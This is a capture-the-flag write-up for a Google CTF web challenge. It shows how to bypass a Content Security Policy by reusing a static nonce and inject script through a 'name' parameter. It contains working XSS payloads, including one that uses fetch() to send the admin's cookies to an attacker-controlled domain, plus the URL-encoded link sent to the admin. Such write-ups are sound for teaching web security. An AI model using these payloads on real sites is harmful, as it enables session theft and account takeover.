 # falling slowly... again - google ctf - web

This site boasts a defense against XSS, but its security is like a falling leaf – slow and predictable. It relies on a mechanism that, while sound in theory, has a fatal flaw in its execution. Can you exploit this weakness to inject your own malicious code and take control?


When testing for an XSS with the usual 

```
<script>alert()</script>
```

XSS payload, I see that it is loaded into the page but the script doesn't function. Opening up devtools gives us the following CSP error:

```
once-web.2024-bq.ctfcompetition.com/:47 Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self' 'nonce-bO4ppxGUAjltHc4UXpjG6ggg'". Either the 'unsafe-inline' keyword, a hash ('sha256-S8S/VNmXuUuoIR6OhqBqwIiIkuCxXq31hCCHAHnicV8='), or a nonce ('nonce-...') is required to enable inline execution.
```

Nonce is like a key that must be presented in order for script to be run inline.

To bypass this, we just have to include the nonce value in the payload:

```
<script nonce=bO4ppxGUAjltHc4UXpjG6ggg>alert()</script>
```

Success:

---

From here, the cookies for the admin seem like the logical place for the flag so I create a new payload that will fetch a domain under my control with the cookie included as part of the request. The payload to first add into the "name" parameter:

```
<script nonce=bO4ppxGUAjltHc4UXpjG6ggg>fetch('https://performer-disagree-nor-agency.trycloudflare.com/'+document.cookie)</script>
```

Next we send the XSS url to the admin:

```
https://once-web.2024-bq.ctfcompetition.com/?name=%3Cscript+nonce%3DbO4ppxGUAjltHc4UXpjG6ggg%3Efetch%28%27https%3A%2F%2Fperformer-disagree-nor-agency.trycloudflare.com%2F%27%2Bdocument.cookie%29%3C%2Fscript%3E
```

And the result from a python listener:

---

# Resources/Learning

- CSP - nonce